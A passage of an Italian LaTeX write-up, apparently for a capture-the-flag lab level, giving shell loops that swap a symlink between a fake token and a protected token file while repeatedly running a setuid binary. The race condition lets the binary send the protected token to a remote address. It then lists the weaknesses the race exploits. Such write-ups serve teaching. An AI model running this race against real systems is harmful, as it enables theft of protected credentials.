 \subsubsection{Sulla macchina principale}
\begin{lstlisting}[style=bashstyle]
    # crea token finto
    touch /tmp/tokenfinto
    # scrivi test dentro tokenfinto
    echo "test" > /tmp/tokenfinto
    # crea loop infinito che scambia il symlink tra token e tokenfinto
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
    # crea ciclo per eseguire all'infinito flag10
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting}
Otteniamo il token sulla seconda macchina, lo usiamo per autenticarci come flag10 nella macchina principale, eseguiamo \textbf{/bin/getflag} e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione bash che non abbassa i privilegi di esecuzione.
    \item L'utilizzo della funzione \textbf{access()} seguito da una \textbf{open()} comporta un buco di sicurezza (race condition):
    \begin{itemize}
        \item Situazione in cui il risultato dell'esecuzione di un insieme di processi, che condividono una risorsa, dipende dall'ordine in cui essi sono eseguiti.
    \end{itemize}
\end{itemize}


